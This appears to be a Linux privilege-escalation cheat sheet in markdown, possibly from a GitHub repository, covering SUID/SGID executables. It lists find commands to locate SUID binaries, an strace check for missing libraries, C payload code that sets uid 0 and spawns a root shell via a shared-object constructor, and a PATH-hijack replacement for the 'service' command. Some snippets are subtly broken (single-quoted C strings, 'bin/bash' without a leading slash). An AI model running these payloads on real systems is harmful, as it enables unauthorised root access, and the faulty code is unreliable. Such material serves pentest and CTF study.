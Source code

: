 ## SUID / SGID Executables - Known Exploits
Find all SUID/SGID executables and look to see if their versions can be exploited:
```sh
find / -user root -perm -4000 -exec ls -ldb {} \;
find / -perm -u=s -type f 2>/dev/null
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

## SUID / SGID Executables - Shared Object Injection
When you find an executable, you can trace it's system calls using `strace`. We are looking to see an error that a file has not been found in an area of the system we can write to.
```sh
strace example-so 2>&1 | grep -iE "open|access|no such file"
```

Create a payload: (inject.so)
```sh
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
    setuid(0);
    system('/bin/bash -p');
}
```

Compile code into a shared object:
```sh
gcc -shared -fPIC -o libcalc.so inject.so
```

When the program is run again, you will get a root shell.

## SUID / SGID Executables - Environment Variables
If an executable inherits the users PATH and tries to execute programs without specifying an absolute path we can exploit it.

When we search the executable for strings we can see it calls apache, but the `service` command is relative.

/usr/local/bin/vulnerable
```sh
strings vulnerable

# --output--
service apache2 start
```

Create a malicious version of the `service` script (malicious-service.c):
```sh
int main() {
    setuid(0);
    system('bin/bash -p');
}
```
